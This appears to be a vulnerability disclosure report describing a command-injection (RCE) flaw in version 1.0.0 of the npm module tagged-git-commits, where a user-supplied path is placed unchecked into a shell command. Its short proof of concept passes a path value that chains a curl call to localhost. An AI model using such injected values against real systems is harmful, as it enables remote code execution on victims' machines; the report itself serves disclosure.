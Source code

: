## Details
I would like to report a `RCE` issue in the `tagged-git-commits` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

## Module
* **module name:** `tagged-git-commits`
* **version:** `1.0.0`
* **npm page:** `https://www.npmjs.com/package/tagged-git-commits`

## Module Description
> Get the commit hash and refs/tags of tagged commits, remote and local

## Vulnerability Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-tagged-git-commits/blob/master/index.js#L29

## PoC

```js
// poc.js
const taggedCommits = require('tagged-git-commits');

taggedCommits({
	path: './git || curl "http://localhost/RCE"',
});
```

## Impact
`RCE` on `tagged-git-commits` via `insecure command formatting`

